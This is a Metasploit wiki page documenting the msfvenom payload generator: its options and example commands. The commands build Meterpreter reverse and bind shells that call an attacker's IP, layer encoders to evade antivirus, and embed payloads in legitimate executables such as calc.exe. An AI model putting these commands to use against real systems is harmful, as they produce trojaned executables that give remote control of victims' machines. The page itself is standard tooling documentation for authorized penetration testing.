 # msfvenom

Tod Beardsley edited this page on Sep 14, 2016 · 20 revisions
Msfvenom is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015.

To start using msfvenom, first please take a look at the options it supports:

    Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
### How to generate a payload
To generate a payload, there are two flags that you must supply (-p and -f):

The -p flag: Specifies what payload to generate
To see what payloads are available from Framework, you can do:

    ./msfvenom -l payloads
The -p flag also supports "-" as a way to accept a custom payload:

    cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
The -f flag: Specifies the format of the payload
Syntax example:

    ./msfvenom -p windows/meterpreter/bind_tcp -f exe
To see what formats are supported, you can do the following to find out:

    ./msfvenom --help-formats
Typically, this is probably how you will use msfvenom:

     $ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
### How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

      ./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
To find out what encoders you can use, you can use the -l flag:

    ./msfvenom -l encoders
You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:

    ./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

    ./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
### How to supply a custom template
By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

      ./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
👀 Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:

      ./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

### How to chain msfvenom output
The old msfpayload and msfencode utilities were often chained together in order layer on multiple encodings. This is possible using msfvenom as well:

    ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
    ./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
    ./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
